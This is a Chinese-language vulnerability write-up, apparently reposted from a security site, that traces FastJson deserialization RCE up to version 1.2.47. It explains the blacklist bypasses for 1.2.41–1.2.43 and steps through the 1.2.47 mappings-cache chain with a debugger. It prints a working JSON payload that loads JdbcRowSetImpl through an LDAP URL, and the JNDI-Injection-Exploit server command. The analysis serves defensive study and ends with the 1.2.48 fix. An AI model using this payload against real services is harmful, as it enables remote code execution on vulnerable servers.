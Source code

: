 > 原文链接: https://www.anquanke.com//post/id/224820 


# FastJson&lt;=1.2.47RCE细枝末节详细分析


                                阅读量   
                                **102775**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t0175552f2250560322.jpg)](https://p2.ssl.qhimg.com/t0175552f2250560322.jpg)



## 0x00 前言

上篇文章学习了FastJson的第一版漏洞，曝出后官方立马做了更新，增加了checkAutoType()函数，并默认关闭autotype，在这之后一段时间内的绕过都与它有关。本文主要关于FastJson&lt;=1.2.47的相关漏洞。



## 0x01 1.2.41-1.2.43的缠绵不休

这三个版本的修复可以说是非常偷懒了，所以才会连续因为一个原因曝出多个问题。

```
//修复前：
if (className.charAt(0) == '[') `{`
    Class&lt;?&gt; componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
`}`

if (className.startsWith("L") &amp;&amp; className.endsWith(";")) `{`
    String newClassName = className.substring(1, className.length() - 1);
    return loadClass(newClassName, classLoader);
`}`
```

从1.2.41说起。在checkAutotype()函数中，会先检查传入的[@type](https://github.com/type)的值是否是在黑名单里，如果要反序列化的类不在黑名单中，那么才会对其进行反序列化。问题来了，在反序列化前，会经过loadClass()函数进行处理，其中一个处理方法是：在加载类的时候会去掉className前后的L和;。所以，如果我们传入Lcom.sun.rowset.JdbcRowSetImpl;，在经过黑白名单后，在加载类时会去掉前后的L和;，就变成了com.sun.rowset.JdbcRowSetImpl，反序列化了恶意类。

更新了1.2.42，方法是先判断反序列化目标类的类名前后是不是L和;，如果是，那么先去掉L和;，再进行黑白名单校验（偷懒qaq）。关于1.2.42绕过非常简单，只需要双写L和;，就可以在第一步去掉L和;后，与1.2.41相同。

更新也非常随意，在1.2.43中，黑白名单判断前，又增加了一个是否以LL开头的判断，如果以LL开头，那么就直接抛异常，非常随意解决了双写的问题。但是除了L和;，FastJson在加载类的时候，不只对L和;这样的类进行特殊处理，[也对特殊处理了，所以，同样的方式在前面添加[绕过了1.2.43及之前的补丁。

在1.2.44中，黑客们烦不烦，来了个狠的：只要你以[开头或者;结尾，我直接抛一个异常。如此，终于解决了缠绵多个版本的漏洞。



## 0x02 &lt;=1.2.47的双键调用分析

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86"></a>漏洞原理

FastJson有一个全局缓存机制：在解析json数据前会先加载相关配置，调用addBaseClassMappings()和loadClass()函数将一些基础类和第三方库存放到mappings中（mappings是ConcurrentMap类，所以我们在一次连接中传入两个键值a和b，具体内容见下文）。<br>
之后在解析时，如果没有开启autotype，会从mappings或deserializers.findClass()函数中获取反序列化的对应类，如果有，则直接返回绕过了黑名单。<br>
本次要利用的是java.lang.Class类，其反序列化处理类MiscCodec类可以将任意类加载到mappings中，实现了目标。

### <a class="reference-link" name="%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA"></a>环境搭建

环境：IDEA + JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

新建maven项目后添加1.2.47版本的fastjson，并创建fastjson1_2_47.java文件

```
package person;
import com.alibaba.fastjson.JSON;
public class fastjson1_2_47 `{`
    public static void main(String[] argv)`{`
        testJdbcRowSetImpl();
    `}`
    public static void testJdbcRowSetImpl()`{`
        String payload = "`{`\"a\":`{`\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"`}`," +
                "\"b\":`{`\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":" +
                "\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":true`}``}``}`";
        JSON.parse(payload);
    `}`

`}`
```

使用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar搭建ldap服务

```
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 127.0.0.1
```

运行代码，触发poc

[![](https://p1.ssl.qhimg.com/t016e65dcce88b5c00a.png)](https://p1.ssl.qhimg.com/t016e65dcce88b5c00a.png)

### <a class="reference-link" name="%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90"></a>动态分析

首先在JSON.parse(payload);下断点后调试

[![](https://p3.ssl.qhimg.com/t0180b6e7146474257c.png)](https://p3.ssl.qhimg.com/t0180b6e7146474257c.png)

之后单步步入，过程类似于上篇文章中的调用过程，我们直到DefaultJSONParser.java的parseObject()函数

[![](https://p0.ssl.qhimg.com/t0105d76b1c388013cf.png)](https://p0.ssl.qhimg.com/t0105d76b1c388013cf.png)

下面就进入一个for循环获取并处理我们的payload，我们跟进到如图所示位置，从这里开始就和1.2.24的调用不同了。可以看到我们获取了第一段key为a，由于不是[@type](https://github.com/type)属性，我们会跳过这个if（里面有checkAutoType()和deserializer.deserialze()，我们一会就会回来），继续跟进

[![](https://p2.ssl.qhimg.com/t0147c78dc028ced1af.png)](https://p2.ssl.qhimg.com/t0147c78dc028ced1af.png)

我们跟进到这里，开始处理a内`{`里面的内容

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013a61a5c148d8515b.png)

接下来调用this.parseObject()，正式进入嵌套，获取处理key为a的内部内容，单步步入后，我们发现又进入了上面进入过的for循环，并且获取的key为[@type](https://github.com/type)，进入上面说的if段

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t016d875ae47cc07d38.png)

[![](https://p4.ssl.qhimg.com/t01235e0fa9c5e94849.png)](https://p4.ssl.qhimg.com/t01235e0fa9c5e94849.png)

调用了checkAutoType()来检查目标类是否符合要求，这里我们不跟进去看了，在分析b段的时候再跟进去。这里我们只要知道，我们利用的java.lang.Class是可以通过校验的就可以了，所以我们单步步过

[![](https://p5.ssl.qhimg.com/t01d7ac85e72ef4c5eb.png)](https://p5.ssl.qhimg.com/t01d7ac85e72ef4c5eb.png)

通过checkAutoType()后获取到clazz为java.lang.Class，之后调用了对应的序列化处理类com.alibaba.fastjson.serializer.MiscCodec()，这里就是核心，我们单步步入

[![](https://p5.ssl.qhimg.com/t011b9d72eb1a96cf24.png)](https://p5.ssl.qhimg.com/t011b9d72eb1a96cf24.png)

可以看到我们进入到MiscCodec.java的deserialze()中，首先调用parser.parse()从payload中获取val对应的键值，也就是JdbcRowSetImpl类，并赋值给strVal，我们继续跟进

[![](https://p0.ssl.qhimg.com/t018d96ca287e1e4dc0.png)](https://p0.ssl.qhimg.com/t018d96ca287e1e4dc0.png)

接下来有一堆if判断，会对我们要反序列化的类进行一个类型的判断，直到如图位置，我们进入TypeUtils.loadClass()函数，这里默认cache为true

[![](https://p5.ssl.qhimg.com/t017bad7ba689cbe9dd.png)](https://p5.ssl.qhimg.com/t017bad7ba689cbe9dd.png)

在TypeUtils.loadClass()中，cache为true时，将键值对应的类名放到mappings中

[![](https://p2.ssl.qhimg.com/t013e6f427830068e2e.png)](https://p2.ssl.qhimg.com/t013e6f427830068e2e.png)

（到目前为止我们已经成功将恶意类com.sun.rowset.JdbcRowSetImpl加载到mappings中，接下来我们继续跟进解析传入的第二个键值b的内容，实现恶意类的jdni注入利用）

在完成loadClass()后会向上层返回，如图，继续跟进后回到for循环正式开始解析键值b的内容，获取到bkey为b后，类似于a那里，会跳过这个if段，在下面再次调用parseObject()来处理b内部内容，我们直接跟进下面的parseObject()

[![](https://p5.ssl.qhimg.com/t010ca58ce294e865e3.png)](https://p5.ssl.qhimg.com/t010ca58ce294e865e3.png)

[![](https://p5.ssl.qhimg.com/t0139a7ef46f31dc327.png)](https://p5.ssl.qhimg.com/t0139a7ef46f31dc327.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0112980d583cf4b8eb.png)

在parseObject()中继续跟进到入checkAutoType()，这次我们进入checkAutoType()看一下

[![](https://p0.ssl.qhimg.com/t01095ba0934608d8d2.png)](https://p0.ssl.qhimg.com/t01095ba0934608d8d2.png)

在checkAutoType内部，没有开启autotype，直接从mappings中获取，然后返回，一气呵成，黑白名单完全没用

[![](https://p3.ssl.qhimg.com/t01fcec6b3c2deb67be.png)](https://p3.ssl.qhimg.com/t01fcec6b3c2deb67be.png)

接下来会调用deserializer.deserialze()和1.2.24一样，造成rce

[![](https://p0.ssl.qhimg.com/t016ab6452f3bd9622c.png)](https://p0.ssl.qhimg.com/t016ab6452f3bd9622c.png)

完整调用链：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0111d531ce8be8e050.png)



## 0x03 总结和修复

本次利用分两步：

第一步利用java.lang.Class将恶意类加载到mappings中；

第二步从mappings中取出恶意类并绕过黑名单进行了反序列化。

在1.2.48中，首先将java.lang.class类加入黑名单，然后将MiscCodec类中的cache参数默认为false，对于checkAutoType()也调整相关逻辑。尽快升级，据说当年hw一片。



## 0x04 结语

上面首先讲述了1.2.41-1.2.43的愚蠢问题，之后跟踪了&lt;=1.2.47的RCE，相信已经非常清楚了，在之后FastJson又曝出了其他问题，下篇文章继续学习。
